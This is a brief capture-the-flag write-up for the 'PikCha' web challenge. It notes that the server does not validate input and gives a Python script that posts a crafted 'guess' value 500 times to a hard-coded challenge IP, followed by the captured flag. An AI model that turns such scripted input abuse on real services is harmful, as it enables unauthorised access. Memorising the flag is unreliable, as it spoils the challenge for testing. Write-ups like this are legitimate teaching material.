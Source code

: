 # PikCha

>http://104.197.195.221:8084 >http://34.121.84.161:8084
>
>Created by Soul#8230

The server doesn't valide the input.
## python script
```python3
#!/usr/bin/env python3

import requests

URL = "http://104.197.195.221:8084/"


payload = {'guess':'a a a a'}
session = requests.Session()
session.get(url = URL)

i=0
while i != 500:
    r = session.post(url = URL, data = payload)
    i=i+1
    print(r.text)

```



`UMASS{G0tt4_c4tch_th3m_4ll_17263548}`
